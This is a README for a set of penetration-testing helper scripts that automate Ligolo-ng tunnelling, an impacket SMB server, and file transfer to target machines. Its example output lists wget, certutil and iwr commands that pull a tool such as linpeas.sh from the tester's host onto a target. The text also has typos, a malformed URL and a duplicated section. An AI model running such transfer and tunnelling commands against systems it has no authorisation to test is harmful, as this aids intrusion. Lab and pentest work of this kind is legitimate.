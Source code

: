 # PopScripts
This repo includes three scripts to make using ligolo, impacket-smbserver, and transferring files slightly easier by automating required steps and echoing certain commands such that they can be copy/pasted into a new window on a arget machine. If you like all the scripts, it is easiest to just run `sudo ./link.sh`. 


## liggy
This script exists to automate the setup of the Ligolo-ng (https://github.com/nicocha30/ligolo-ng) proxy. It requires Ligolo to be in the /opt folder. It requires an IP range to set up a tunnel, but it will accept a specific IP range or a single IP and convert to the IP range of 0/24. 

Run `sudo chmod +x /opt/liggy/liggy.sh && ln -s /opt/liggy/liggy.sh /usr/local/bin/liggy` to be able to call it as liggy from any directory. 

## served
This script prints cerutil, iwr, and wget commands to be run on a remote target to download files from your machine. The default IP is your tun0 (-IP), the default port (-p) is 80, and the default file (-f) is `file`, but the script can be run with any of those flags. 

Run `sudo chmod +x /opt/PopScripts/served.sh && ln -s /opt/PopScripts/served.sh /usr/local/bin/served` to be able to call it as liggy from any directory. 

Ex: `served -p 443 -f linpeas.sh`
Output:
`wget http:{tun0}:443/linpeas.sh`
`certutil.exe -f -split -urlcache http:{tun0}:443/linpeas.sh -o linpeas.sh`
`iwr -uri http://{tun0]:443/linpeas.sh -o linpeas.sh`

## speedysmb

This script exists to automate the creation of an impacket-smbserver (https://github.com/fortra/impacket/blob/master/examples/smbserver.py) by requesting a username and password, and then printing the commands that need to be run on a remote machine to transfer files. 

Run `sudo chmod +x /opt/PopScripts/speedysmb.sh && ln -s /opt/PopScripts/speedysmb.sh /usr/local/bin/speedysmb` to be able to call it as speedysmb from any directory.

## liggy
This script exists to automate the setup of the Ligolo-ng (https://github.com/nicocha30/ligolo-ng) proxy. It requires Ligolo to be in the /opt folder. It requires an IP range to set up a tunnel, but it will accept a specific IP range or a single IP and convert to the IP range of 0/24. 

Run `sudo chmod +x /opt/PopScripts/liggy.sh && ln -s /opt/PopScripts/liggy.sh /usr/local/bin/liggy` to be able to call it as liggy from any directory. 


## to create symbolic links for all of them

Run `sudo chmod +x /opt/PopScripts/served.sh && chmod +x /opt/PopScripts/speedysmb.sh chmod +x /opt/PopScripts/liggy.sh && ln -s /opt/PopScripts/served.sh /usr/local/bin/served && ln -s /opt/PopScripts/speedysmb.sh /usr/local/bin/speedysmb && ln -s /opt/PopScripts/liggy.sh /usr/local/bin/liggy`

Or run `sudo ./link.sh`

